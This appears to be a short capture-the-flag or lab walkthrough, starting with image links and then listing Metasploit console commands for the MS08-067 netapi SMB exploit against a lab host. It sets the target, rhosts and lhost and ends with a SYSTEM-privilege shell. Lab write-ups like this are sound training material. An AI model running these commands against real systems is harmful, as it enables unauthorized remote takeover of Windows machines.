




metasploit
https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show targets
...targets...
msf exploit(ms08_067_netapi) > set TARGET < target-id >
msf exploit(ms08_067_netapi) > show options
...show and set options...
msf exploit(ms08_067_netapi) > exploit
search netapi

use 3


show options

rhosts is a required parameter so we'll set that with

set rhosts 10.10.10.4

but notice we also have to change our lport since it is not using our tunnel's ip

set lhost tun0

show options one more time:

and run

and we have a shell with system privileges!